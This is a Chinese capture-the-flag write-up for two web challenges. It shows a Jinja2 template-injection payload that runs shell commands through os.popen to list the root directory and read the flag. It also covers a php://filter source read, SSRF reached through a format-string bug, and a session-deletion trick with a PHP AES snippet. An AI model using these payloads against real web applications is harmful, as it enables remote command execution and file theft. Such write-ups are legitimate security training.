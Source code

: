 回显是 49，确定存在 ssti

直接使用 payload：?name={{ config.__class__.__init__.__globals__['os'].popen('ls /').read() }}

![图片13](https://uploader.shimo.im/f/Jt37fyYCHzwm0Mx2.png!thumbnail)

找到 flag 就在根目录

cat /flag 时回显：BJD in P3's gf's name !!!!!???

![图片14](https://uploader.shimo.im/f/666u8gGm8h4jiSZZ.png!thumbnail)

这里是一个 trick，对输出的 BJD 做出了过滤，输出方法不唯一，这里给出的解法是字符串切片操作：qaq?name={{ config.__class__.__init__.__globals__['os'].popen('cat /flag').read()[1:] }}

![图片15](https://uploader.shimo.im/f/FEnFbk4IBXQJQTSk.png!thumbnail)

## 文件探测 - Y1ng

题目详细解析： [https://www.gem-love.com/ctf/2097.html#File_Detect](https://www.gem-love.com/ctf/2097.html#File_Detect)

出题笔记： [https://www.gem-love.com/ctf/2056.html#i](https://www.gem-love.com/ctf/2056.html#i)

1.在 header 可以发现 hint：home.php

2.访问 home.php 跳转到/home.php?file=system，用伪协议可以读 system 的源码/home.php?file=php://filter/convert.base64-encode/resource=system

3.由题目告知的“你知道目录下都有什么文件吗”，扫一下或者怎么样的，发现 robots.txt，由 robot 得知 admin.php，访问 admni.php 之后告知需要本地访问，SSRF 的题

4.分析 system.php 可以发现格式化字符串漏洞，把能 admin.php 源码打出来：

	你知道目录下都有什么文件吗：随便填
	
	输入 url: http://127.0.0.1/admin.php?A=
	
	何种方式访问: GET%s% (后面的%用来把%d 的%转义掉)

5.第 4 步得到了 admin.php 的源码，分析之后发现是不可被破解的随机数。好在密文放在 session，因此可以通过删除 PHPSESSID 来解决这个问题

	5.1 首先本地计算一个 data 为空的密文

```
    <?php
    function aesEn($data, $key)
    {
        $method = 'AES-128-CBC';
        $iv = md5('8.8.8.8', true);  //这里填你的 IP
        return  base64_encode(openssl_encrypt($data, $method,$key, OPENSSL_RAW_DATA , $iv));
    }
    $cipher = aesEn('', 'y1ng');
    echo $cipher;
```

    5.2 然后把 admin.php 的 PHPSESSID 删掉，访问 /decrypt=计算出来的 cipher ,得到 flag
